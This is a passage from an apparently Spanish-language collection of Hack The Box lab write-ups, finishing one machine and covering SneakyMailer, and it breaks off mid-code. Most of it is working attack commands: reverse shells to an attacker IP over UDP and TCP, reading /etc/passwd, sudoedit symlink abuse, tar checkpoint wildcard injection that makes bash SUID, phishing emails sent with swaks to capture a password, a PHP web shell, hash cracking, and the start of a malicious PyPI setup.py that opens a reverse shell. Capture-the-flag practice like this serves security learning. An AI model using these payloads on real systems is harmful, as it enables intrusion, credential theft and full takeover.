En este caso la respuesta al lado del servidor es \texttt{0}. Suponemos que la respuesta es el codigo de estado. Utilizamos la funccion
\texttt{os.popen(\textless{}command\textgreater{}).read()} para ver el output normal.

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{os.popen(}\StringTok{'whoami'}\NormalTok{).read()}
\CommentTok{#Output}
\CommentTok{'Werkzeug'}
\end{Highlighting}
\end{Shaded}

El commando functionna. Ahora intentamos \textbf{pingear} nuestra maquina de attaquante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  en la maquina de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ -i tun0 icmp -n}
\end{Highlighting}
\end{Shaded}
\item
  En la consola interactiva python

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{os.system(}\StringTok{'ping -c 1 10.10.14.20'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Recibimos la trasa ICMP.

Intentamos recuperar ficheros de la maquina victima antes de entablar una reverse shell. Como el commando
\texttt{os.popen(\textquotesingle{}cat\ /etc/passwd\textquotesingle{}).read()} nos retorna el resultado en una linea y que no es muy legible, S4vi nos
recommienda encryptar la respuesta en base 64 para despues decodificarlo en la maquina de attaquante con el commando
\texttt{echo\ "\textless{}cadena\ codificada\ en\ base64\textgreater{}"\ \textbar{}\ base64\ -d;\ echo}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{os.popen(}\StringTok{'base64 -w 0 /etc/passwd'}\NormalTok{).read()}
\NormalTok{os.popen(}\StringTok{'base64 -w 0 /etc/iptables/rules.v4'}\NormalTok{).read()}
\end{Highlighting}
\end{Shaded}

El iptables nos muestra con la linea \texttt{-A\ OUTPUT\ -o\ ens33\ -p\ tcp\ -m\ state\ -\/-state\ NEW\ -j\ DROP} que la maquina victima nos
va a rechazar todas las communicaciones por \textbf{TCP}. Es por esta razon que no hemos creado directamente una reverse shell.

\hypertarget{vuln-exploit-gaining-access-3}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-3}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{reverse-shell-por-udp}{%
\subsection*{Reverse shell por UDP}\label{reverse-shell-por-udp}}
\addcontentsline{toc}{subsection}{Reverse shell por UDP}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attaquante con el parametro \texttt{-u}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -u -nlvp 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

1.en la consola interactiva

\begin{verbatim}
```python
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.20 443 >/tmp/f")
```
\end{verbatim}

Y ya esta\ldots{}

\hypertarget{tratamiento-de-la-tty-3}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-3}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{investigamos-la-maquina-2}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina-2}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{werkzeug}

\BuiltInTok{cd}\NormalTok{ /home/alekos}
\FunctionTok{cat}\NormalTok{ user.txt}
\end{Highlighting}
\end{Shaded}

No podemos leer la flag. Quiere decir que vamos a tener que convertirnos en el usuario alekos.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

El commando \texttt{sudo\ -l} nos dice que podemos ejecutar \texttt{sudoedit\ /var/www/*/*/layout.html} como el usuario alekos.

\hypertarget{privilege-escalation-3}{%
\section*{Privilege Escalation}\label{privilege-escalation-3}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{privilege-escalation-al-usuario-alekos}{%
\subsection*{Privilege escalation al usuario alekos}\label{privilege-escalation-al-usuario-alekos}}
\addcontentsline{toc}{subsection}{Privilege escalation al usuario alekos}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l /var/www}
\end{Highlighting}
\end{Shaded}

No tenemos capacidad de escritura en el directorio \texttt{/var/www} pero hay un directorio testing donde el usuario proprietario es werkzeug.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /var/www/testing}
\FunctionTok{ls}\NormalTok{ -l}
\FunctionTok{mkdir}\NormalTok{ hannamod}
\BuiltInTok{cd}\NormalTok{ !$}
\BuiltInTok{echo} \StringTok{"Hola"} \OperatorTok{>}\NormalTok{ layout.html}
\end{Highlighting}
\end{Shaded}

Testeamos el commando \textbf{sudoedit}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sudoedit}\NormalTok{ -u alekos /var/www/testing/hannamod/layout.html}
\end{Highlighting}
\end{Shaded}

El commando no abre un nano en el cual podemos editar el contenido. El truco aqui es burlar el fichero para que el usuario pueda editar
un ficher tercio en el cual tenga capacidad de escritura

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un enlace symbolico contra el \textbf{authorized\_keys} del usuario alekos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ln}\NormalTok{ -s -f /home/alekos/.ssh/authorized_keys layout.html}
\end{Highlighting}
\end{Shaded}
\item
  Nos creamos un par de claves

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh-keygen}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el \textbf{sudoedit} y copiamos la clave publica creada
\item
  Nos connectamos al usuario alekos por ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id-rsa alekos@10.10.10.21}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Pa dentro\ldots{} somos alekos y podemos leer la flag.

\hypertarget{privilege-escalation-al-usuario-root}{%
\subsection*{Privilege escalation al usuario root}\label{privilege-escalation-al-usuario-root}}
\addcontentsline{toc}{subsection}{Privilege escalation al usuario root}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{ls}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

vemos que hay dos directorios

\begin{itemize}
\tightlist
\item
  backup
\item
  development
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ backup}
\FunctionTok{stat}\NormalTok{ *}
\FunctionTok{stat}\NormalTok{ * }\KeywordTok{|} \FunctionTok{grep} \StringTok{"Modify"}
\end{Highlighting}
\end{Shaded}

En el directorio backup vemos que cada 5 minutos una tarrea que se esta ejecutando a intervalos regulares de tiempo nos crea un archivo de backup.
Ahora tenemos que saber lo que se esta poniendo en estos backups.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attaquante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -u -nlvp 443 }\OperatorTok{>}\NormalTok{ dev-1627332901.tar.gz}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -u 10.10.14.20 443 }\OperatorTok{<}\NormalTok{ dev-1627332901.tar.gz}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

mirando el contenido de fichero comprimido, nos damos cuenta que el contenido es el mismo que el directorio development.

Saviendo esto estamos intuiendo que la tarea cron ejecuta un commando del estilo: \texttt{tar\ -cvf\ backup/test.tar.gz\ /home/alekos/development/*}.
Aqui el problema es que si el commando es este, el symbolo \texttt{*} permitteria burlar el commando tar con breakpoints. Lo que queremos ejecutar seria
el commando siguiente:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{tar}\NormalTok{ -cvf backup/test.tar.gz /home/alekos/development/* --checkpoint=1 --checkpoint-action=exec/bin/sh}
\end{Highlighting}
\end{Shaded}

El echo es que si el commando de la tarea cron tiene el asterisco y que ficheros tienen nombres como \texttt{-\/-checkpoint=1} y \texttt{-\/-checkpoint-action=exec/bin/sh},
en vez de copiarlos, los utilizaria como argumentos del proprio commando tar.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{touch}\NormalTok{ privesc}
\FunctionTok{chmod}\NormalTok{ +x privesc}

\FunctionTok{nano}\NormalTok{ privesc}

\CommentTok{############privesc content##############3}

\CommentTok{#!/bin/bash}

\FunctionTok{chmod}\NormalTok{ 4755 /bin/bash}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{touch}\NormalTok{ -- }\StringTok{'--checkpoint=1'}
\FunctionTok{touch}\NormalTok{ -- }\StringTok{'--checkpoint-action=exec=sh privesc'}
\end{Highlighting}
\end{Shaded}

Ya esta esperamos hasta el proximo run de la tarea cron.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{watch}\NormalTok{ -n 1 ls -l /bin/bash -d}
\end{Highlighting}
\end{Shaded}

Cuando vemos que la /bin/bash tiene el \texttt{s} de SUID podemos convertirnos en root

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\end{Highlighting}
\end{Shaded}

\hypertarget{sneakymailer}{%
\chapter*{SneakyMailer}\label{sneakymailer}}
\addcontentsline{toc}{chapter}{SneakyMailer}

\hypertarget{introduccion-4}{%
\section*{Introduccion}\label{introduccion-4}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 26/07/2021 se llama SneakyMailer
.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1098850596}{Twitch: S4vitaar SneakyMailer maquina}

\hypertarget{enumeracion-4}{%
\section*{Enumeracion}\label{enumeracion-4}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-4}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-4}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-4}{%
\subsubsection*{Ping}\label{ping-4}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.197}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux

\hypertarget{nmap-4}{%
\subsubsection*{Nmap}\label{nmap-4}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.197 }
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.197 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p21,22,25,80,143,993,8080 10.10.10.197 -oX targetedXML}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
21 & ftp & Conexion como Anonymous &\tabularnewline
22 & ssh & Accesso directo & usuario y contraseña\tabularnewline
25 & smtp & Por detras hay algo rel. email &\tabularnewline
80 & http & Redirect to sneakycorp.htb hosts &\tabularnewline
143 & IMAP & Connectar para listar contenido mail & usuario y contraseña\tabularnewline
993 & squid-proxy & Browsear la web por este puerot & Checkear el exploit\tabularnewline
8080 & http & Browsear la web por este puerto & Checkear la web\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{ftp}{%
\subsubsection*{FTP}\label{ftp}}
\addcontentsline{toc}{subsubsection}{FTP}

Intentamos conectarnos como anonymous.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.197}
\OperatorTok{>} \ExtensionTok{Name}\NormalTok{ : anonymous}
\end{Highlighting}
\end{Shaded}

\hypertarget{whatweb-2}{%
\subsubsection*{Whatweb}\label{whatweb-2}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.197}
\end{Highlighting}
\end{Shaded}

Hay un redirect a \texttt{sneakycorp.htb}

\hypertarget{add-sneakycorp.htb-host}{%
\subsubsection*{Add sneakycorp.htb host}\label{add-sneakycorp.htb-host}}
\addcontentsline{toc}{subsubsection}{Add sneakycorp.htb host}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ /etc/hosts}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/hosts-sneakycorp} \caption{hosts sneakycorp.htb}\label{fig:unnamed-chunk-9}
\end{figure}

\hypertarget{checkear-la-web-del-puerto-8080}{%
\subsubsection*{Checkear la web del puerto 8080}\label{checkear-la-web-del-puerto-8080}}
\addcontentsline{toc}{subsubsection}{Checkear la web del puerto 8080}

Abrimos la web y vemos cosas:

\begin{itemize}
\tightlist
\item
  Ya estamos loggeados
\item
  Hay mensajes de collegasos, pinchamos pero no passa nada
\item
  Proyecto pypi testeado a 80\%
\item
  Proyecto POP3 y SMTP testeado completamente
\item
  Es possible installar modulos con pip en el servidor
\item
  Hay un enlace a Team y vemos una lista de emails
\end{itemize}

\hypertarget{recuperar-la-lista-de-email-con-curl}{%
\subsubsection*{Recuperar la lista de email con CURL}\label{recuperar-la-lista-de-email-con-curl}}
\addcontentsline{toc}{subsubsection}{Recuperar la lista de email con CURL}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://sneakycorp.htb/team.php"} \KeywordTok{|} \ExtensionTok{html2text} \KeywordTok{|} \FunctionTok{grep} \StringTok{"@"} \KeywordTok{|} \FunctionTok{awk} \StringTok{'NF\{print $NF\}'} \OperatorTok{>}\NormalTok{ email.txt}
\end{Highlighting}
\end{Shaded}

\hypertarget{vulnerability-assessment-4}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-4}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{swaksear-la-lista-de-email}{%
\subsection*{Swaksear la lista de email}\label{swaksear-la-lista-de-email}}
\addcontentsline{toc}{subsection}{Swaksear la lista de email}

Es commun que en algunos servicios mail, nos podemos connectar al servidor y enviar email con un correo que no existe bajo el servidor indicado.
Se puede hacer con la heramienta \textbf{swaks}. Aqui lo hacemos por el puerto \textbf{25}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 80}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{swaks}\NormalTok{ --to }\VariableTok{$(}\FunctionTok{cat}\NormalTok{ email.txt }\KeywordTok{|} \FunctionTok{tr} \StringTok{'\textbackslash{}n'} \StringTok{','}\VariableTok{)}\NormalTok{ --from }\StringTok{"s4vitar@sneakymailer.htb"}\NormalTok{ \textbackslash{}}
\NormalTok{--header }\StringTok{"Subject: EEEEEEEE"}\NormalTok{ --body }\StringTok{"OH DIOS MIO ES DIAMOND JACKSON -> http://10.10.14.20/diamondjackson.jpg"}\NormalTok{ \textbackslash{}}
\NormalTok{--server 10.10.10.197}
\end{Highlighting}
\end{Shaded}

Ya vemos que podemos enviar el mail y que ademas alguien a pinchado el enlace. Ademas como utilizamos \textbf{nc} y no \textbf{python}
podemos ver la data enviada en raw. En la data vemos que podemos ver el usuario, el email y su password en formato url encode.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{php}\NormalTok{ --interactive}

\OperatorTok{>} \ExtensionTok{print}\NormalTok{ urldecode()}\StringTok{"firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt"}
\end{Highlighting}
\end{Shaded}

Ya vemos la contraseña del usuario en texto claro.

Intentamos connectar por \textbf{SSH} y \textbf{FTP} pero nada

\hypertarget{connectar-por-el-imap-con-nc}{%
\subsection*{Connectar por el IMAP con NC}\label{connectar-por-el-imap-con-nc}}
\addcontentsline{toc}{subsection}{Connectar por el IMAP con NC}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Logear por IMAP con NC

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.197 143}

\ExtensionTok{A1}\NormalTok{ login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju}\KeywordTok{`}\ExtensionTok{hqcHl}\OperatorTok{<}\NormalTok{:Ht}
\CommentTok{#Output}
\ExtensionTok{A1}\NormalTok{ OK LOGIN Ok.}
\end{Highlighting}
\end{Shaded}
\item
  Listear el contenido

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A2}\NormalTok{ LIST }\StringTok{""} \StringTok{"*"}
\end{Highlighting}
\end{Shaded}
\item
  Selectionar INBOX

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A3}\NormalTok{ SELECT }\StringTok{"INBOX"}
\end{Highlighting}
\end{Shaded}
\item
  Selectionar los mensajes enviados

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A4}\NormalTok{ SELECT }\StringTok{"INBOX.Sent"}
\end{Highlighting}
\end{Shaded}
\item
  Selectionar los items enviados

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A5}\NormalTok{ SELECT }\StringTok{"INBOX.Sent Items"}
\end{Highlighting}
\end{Shaded}
\item
  Selectionar lo que hay en la papelera

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A6}\NormalTok{ SELECT }\StringTok{"INBOX.Deleted Items"}
\end{Highlighting}
\end{Shaded}
\item
  Vemos que hay dos elementos en los items enviados, los recuperamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{A7}\NormalTok{ FETCH 1:2 BODY[]}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

En los bodys encontramos un un mensaje que pregunta para cambiar la contraseña del usuario developer poniendo
y la contraseña original en texto claro.
En el otro mensaje otra vez hablan del servicio \textbf{Pypi}

Con el usuario y contraseña intentamos volver a connectar con \textbf{FTP}

\hypertarget{conexion-con-ftp}{%
\subsection*{Conexion con FTP}\label{conexion-con-ftp}}
\addcontentsline{toc}{subsection}{Conexion con FTP}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.197}

\OperatorTok{>} \ExtensionTok{Name}\NormalTok{: developer}
\OperatorTok{>} \ExtensionTok{Password}\NormalTok{: contraseña}
\CommentTok{#Output}
\ExtensionTok{Connection}\NormalTok{ succesful}

\FunctionTok{dir}
\BuiltInTok{cd}\NormalTok{ dev}
\FunctionTok{dir}
\end{Highlighting}
\end{Shaded}

Aqui vemos el contenido de la web. Nos creamos la famosa \texttt{s4vishell.php}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \KeywordTok{echo} \StringTok{"<pre>"}\NormalTok{. }\FunctionTok{shell_exec}\OtherTok{(}\KeywordTok{$_REQUEST}\OtherTok{[}\StringTok{'cmd'}\OtherTok{])}\NormalTok{ . }\StringTok{"</pre>"}\OtherTok{;}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

ahora con el ftp subimos el archivo.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{put}\NormalTok{ s4vishell.php}
\CommentTok{#Output}
\ExtensionTok{transfer}\NormalTok{ complete}
\end{Highlighting}
\end{Shaded}

Controlamos en la web si vemos el fichero \texttt{http://sneakycorp.htb/s4vishell.php} pero tenemos un \emph{404 NOT FOUND}.
Intentamos con otras url:

\begin{itemize}
\tightlist
\item
  \texttt{http://sneakycorp.htb/s4vishell.php}
\item
  \texttt{http://10.10.10.197:8080/s4vishell.php}
\item
  \texttt{http://10.10.10.197:8080/dev/s4vishell.php}
\end{itemize}

pero nada. Aqui pensamos en que podria tener otros subdominios.

\hypertarget{descubrimientos-de-subdominios-de-dos-formas}{%
\subsection*{Descubrimientos de subdominios de dos formas}\label{descubrimientos-de-subdominios-de-dos-formas}}
\addcontentsline{toc}{subsection}{Descubrimientos de subdominios de dos formas}

\hypertarget{descubrimiento-de-subdominios-con-gobuster}{%
\subsubsection*{Descubrimiento de subdominios con GOBUSTER}\label{descubrimiento-de-subdominios-con-gobuster}}
\addcontentsline{toc}{subsubsection}{Descubrimiento de subdominios con GOBUSTER}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gobuster}\NormalTok{ vhost -u http://sneakycorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt}
\end{Highlighting}
\end{Shaded}

Encontramos el subdominio \texttt{dev.sneakycorp.htb}

\hypertarget{descubrimiento-de-subdominios-con-wfuzz}{%
\subsubsection*{Descubrimiento de subdominios con WFUZZ}\label{descubrimiento-de-subdominios-con-wfuzz}}
\addcontentsline{toc}{subsubsection}{Descubrimiento de subdominios con WFUZZ}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hw=12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H }\StringTok{"Host: FUZZ.sneakycorp.htb"}\NormalTok{ http://10.10.10.197}
\end{Highlighting}
\end{Shaded}

Encontramos el subdominio \texttt{dev.sneakycorp.htb}

\hypertarget{retocamos-en-hosts}{%
\subsubsection*{Retocamos en hosts}\label{retocamos-en-hosts}}
\addcontentsline{toc}{subsubsection}{Retocamos en hosts}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ /etc/hosts}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/hosts-dev-sneakycorp} \caption{hosts dev.sneakycorp.htb}\label{fig:unnamed-chunk-10}
\end{figure}

\hypertarget{browsear-el-nuevo-dominio}{%
\subsection*{Browsear el nuevo dominio}\label{browsear-el-nuevo-dominio}}
\addcontentsline{toc}{subsection}{Browsear el nuevo dominio}

Como aqui ya tenemos un nuevo dominio browseamos la web en \texttt{dev.sneakycorp.htb/s4vishell.php} y ahora si encontramos nuestra webshell.

\begin{itemize}
\tightlist
\item
  whoami con \texttt{dev.sneakycorp.htb/s4vishell.php?cmd=whoami}
\item
  verificamos si estamos en un contenedor con \texttt{dev.sneakycorp.htb/s4vishell.php?cmd=hostname\ -I}
\end{itemize}

no es el caso y tenemos capacidad de remote code execution. Ahora intentamos ganar accesso al systema.

\hypertarget{vuln-exploit-gaining-access-4}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-4}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{crear-una-reverse-shell-con-s4vishell.php}{%
\subsection*{Crear una reverse shell con s4vishell.php}\label{crear-una-reverse-shell-con-s4vishell.php}}
\addcontentsline{toc}{subsection}{Crear una reverse shell con s4vishell.php}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Escuchamos por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dev.sneakycorp.htb}\NormalTok{/}\ExtensionTok{s4vishell.php?cmd}\NormalTok{=nc -e /bin/bash 10.10.14.20 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{tratamiento-de-la-tty-4}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-4}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{descubrimiento-de-la-maquina}{%
\subsection*{Descubrimiento de la maquina}\label{descubrimiento-de-la-maquina}}
\addcontentsline{toc}{subsection}{Descubrimiento de la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /home}
\BuiltInTok{cd}\NormalTok{ low}
\FunctionTok{ls}\NormalTok{ -la}
\BuiltInTok{cd}\NormalTok{ .ssh}
\FunctionTok{ls}
\FunctionTok{cat}\NormalTok{ authorized_keys}
\FunctionTok{ps}\NormalTok{ -fawwx}
\end{Highlighting}
\end{Shaded}

Vemos la flag pero no podemos leerla. Huele a que nos tenemos que convertir al usuario \textbf{low}. Tambien vemos un recurso \textbf{Pypi} con
un fichero de credentiales typo \texttt{.htpasswd}

\begin{verbatim}
cat /var/www/pypi.sneakycorp.htb/.htpasswd
\end{verbatim}

Vemos la contraseña del usuarion \textbf{pypi}. La copiamos en la maquina de attaquante y tratamos de romperla con \textbf{John}

Por ultimo se puede ver un nuevo subdominio llamado \texttt{pypi.sneakycorp.htb}, lo introduzimos en el \texttt{/etc/hosts}

\hypertarget{crackeo-con-john-1}{%
\subsection*{Crackeo con John}\label{crackeo-con-john-1}}
\addcontentsline{toc}{subsection}{Crackeo con John}

Copiamos el contenido del fichero .htpasswd en un fichero llamado hash

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Hemos podido crackear la contraseña del usuario pypi

\hypertarget{descubrimiento-de-la-configuration-nginx}{%
\subsection*{Descubrimiento de la configuration NGINX}\label{descubrimiento-de-la-configuration-nginx}}
\addcontentsline{toc}{subsection}{Descubrimiento de la configuration NGINX}

Intentando connectarnos a la web por el subdominio \texttt{pypi.sneakycorp.htb}, vemos que hay una redirection automatica al domino normal.
Saviendo que estamos en frente de un \textbf{NGINX}, analyzamos como el reverse proxy esta configurado.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /etc/nginx}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ sites-enabled}
\FunctionTok{cat}\NormalTok{ sneakycorp.htb}
\FunctionTok{cat}\NormalTok{ pypi.sneakycorp.htb}
\end{Highlighting}
\end{Shaded}

Hay ya vemos que para ir al subdominio \texttt{pypi.sneakycorp.htb} tenemos que passar por el puerto \textbf{8080}, y effectivamente si browseamos
la web con \texttt{pypi.sneakycorp.htb:8080} ya podemos ver la web del \textbf{pypi server}

\hypertarget{crear-un-packete-malicioso-para-pypi}{%
\subsection*{Crear un packete malicioso para pypi}\label{crear-un-packete-malicioso-para-pypi}}
\addcontentsline{toc}{subsection}{Crear un packete malicioso para pypi}

Como el servicio pypi es un server que tiene connectividad con el exterior, podemos seguir lo siguientes passos en la maquina de attackante.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ pypi}
\BuiltInTok{cd}\NormalTok{ !$}
\FunctionTok{mkdir}\NormalTok{ pwned}
\BuiltInTok{cd}\NormalTok{ !$}
\FunctionTok{touch}\NormalTok{ __init__.py}
\FunctionTok{touch}\NormalTok{ setup.py}
\end{Highlighting}
\end{Shaded}

El fichero \texttt{\_\_init\_\_.py} se queda vacio y el contenido del \texttt{setup.py} seria el siguiente.

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ setuptools}
\ImportTok{import}\NormalTok{ socket,subprocess,os}

\NormalTok{s}\OperatorTok{=}\NormalTok{socket.socket(socket.AF_INET,socket.SOCK_STREAM)}
\NormalTok{s.}\ExtensionTok{connect}\NormalTok{((}\StringTok{"10.10.14.20"}\NormalTok{,}\DecValTok{443}\NormalTok{))}
\NormalTok{os.dup2(s.fileno(),}\DecValTok{0}\NormalTok{) }
\NormalTok{os.dup2(s.fileno(),}\DecValTok{1}\NormalTok{)}
